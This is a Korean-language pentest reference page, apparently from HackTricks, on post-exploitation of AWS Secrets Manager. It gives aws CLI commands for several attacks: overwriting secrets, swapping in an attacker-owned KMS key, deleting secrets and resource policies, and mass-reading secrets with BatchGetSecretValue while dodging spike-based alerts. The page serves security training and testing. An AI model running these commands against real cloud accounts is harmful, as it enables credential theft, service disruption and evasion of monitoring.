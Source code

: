 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

**secrets 자체는 민감한 정보입니다.** 읽는 방법은 [privesc 페이지](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md)를 확인하세요.

### DoS Change Secret Value

해당 secret의 값을 변경하면 그 값을 사용하는 모든 시스템을 **DoS**할 수 있습니다.

> [!WARNING]
> 이전 값들도 저장되므로, 이전 값으로 되돌리는 것이 쉽습니다.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

공격자가 secretsmanager:UpdateSecret 권한을 가지고 있다면, secret을 공격자가 소유한 KMS key를 사용하도록 구성할 수 있습니다. 그 키는 초기에는 누구나 접근하여 사용할 수 있도록 설정되어 있어, 새 키로 secret을 업데이트하는 것이 가능합니다. 만약 키에 접근할 수 없었다면, secret을 업데이트할 수 없었을 것입니다.

secret의 키를 변경한 후, 공격자는 자신의 키 설정을 수정하여 오직 자신만 접근할 수 있게 만듭니다. 이렇게 하면 이후 버전의 secret들은 새 키로 암호화되며, 해당 키에 대한 접근 권한이 없기 때문에 secret을 조회할 수 있는 능력이 상실됩니다.

중요한 점은 현재 버전은 여전히 원래 KMS key로 암호화되어 있으므로, 이러한 접근 불가 상태는 secret의 내용이 변경된 이후인 이후 버전에서만 발생한다는 것입니다.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

secret을 삭제하는 최소 일수는 7일입니다.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

삭제가 예약된 secret을 복원할 수 있습니다. secret의 최소 삭제 기간은 7일, 최대는 30일이기 때문입니다. secretsmanager:GetSecretValue 권한과 함께 사용하면 해당 내용을 가져올 수 있습니다.

삭제 중인 secret을 복구하려면, 다음 명령을 사용할 수 있습니다:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

이 액션은 secret에 대한 접근을 제어하는 리소스 정책(resource policy)을 삭제할 수 있게 합니다. 리소스 정책이 특정 사용자 집합에 대한 접근을 허용하도록 구성되어 있었다면, 이는 DoS로 이어질 수 있습니다.

리소스 정책을 삭제하려면:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

secret의 상태는 해당 secret의 버전을 관리하는 데 사용됩니다. AWSCURRENT는 애플리케이션이 사용하는 활성 버전을 표시하고, AWSPREVIOUS는 필요 시 롤백할 수 있도록 이전 버전을 보관하며, AWSPENDING는 새 버전을 현재 버전으로 만들기 전에 준비하고 검증하는 rotation 과정에서 사용됩니다.

애플리케이션은 항상 AWSCURRENT가 붙은 버전을 읽습니다. 누군가 그 라벨을 잘못된 버전으로 옮기면 앱은 잘못된 자격 증명을 사용해 실패할 수 있습니다.

AWSPREVIOUS는 자동으로 사용되지 않습니다. 다만 AWSCURRENT가 제거되거나 잘못 재할당되면 모든 것이 이전 버전으로 계속 실행되고 있는 것처럼 보일 수 있습니다.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager BatchGetSecretValue API를 악용하여 단일 요청으로 최대 20개의 secret을 가져올 수 있습니다. 이는 각 secret마다 GetSecretValue를 반복 호출하는 것보다 API 호출 수를 크게 줄여줄 수 있습니다. --filters( tags/name )를 사용하는 경우 ListSecrets 권한도 필요합니다. CloudTrail은 배치에서 가져온 각 secret에 대해 여전히 GetSecretValue 이벤트를 하나씩 기록합니다.

필요한 권한
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue — 각 대상 secret에 대해
- secretsmanager:ListSecrets — --filters를 사용하는 경우
- kms:Decrypt — secret에 사용된 CMKs에 대해 (aws/secretsmanager를 사용하지 않는 경우)

> [!WARNING]
> `secretsmanager:BatchGetSecretValue` 권한만으로는 secret을 가져오는 데 충분하지 않습니다. 가져오려는 각 secret에 대해 `secretsmanager:GetSecretValue` 권한도 필요합니다.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
필터별로 Exfiltrate (tag key/value 또는 name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
부분 실패 처리
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
- 더 적은 API 호출로 많은 secrets를 빠르게 “smash-and-grab”하여, GetSecretValue 급증에 맞춰 튜닝된 alerting을 잠재적으로 우회할 수 있습니다.
- CloudTrail logs에는 배치로 검색된 각 secret에 대해 여전히 하나의 GetSecretValue 이벤트가 포함됩니다.

